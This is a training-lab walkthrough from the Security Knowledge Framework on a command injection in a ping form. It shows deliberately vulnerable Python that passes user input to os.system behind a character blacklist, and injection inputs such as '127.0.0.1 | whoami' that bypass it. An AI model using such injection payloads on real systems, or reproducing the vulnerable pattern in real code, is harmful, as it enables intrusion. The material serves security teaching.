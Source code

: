 # KBID XXX - Command Injection 1 (CMD)

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](../../.gitbook/assets/nodejs/CMD4/1.png)

Let's try to ping 127.0.0.1

![](../../.gitbook/assets/nodejs/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```text
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```python
    ip_address = request.form['text']
    ip_address = ip_address.replace("`","")
    ip_address = ip_address.replace(";","")
    ip_address = ip_address.replace("&","")
    os.system('ping -c1 ' + ip_address + ' > ./ping_output')
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach.
Let's try piping the commands:

```text
127.0.0.1 | whoami
```

![](../../.gitbook/assets/nodejs/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}
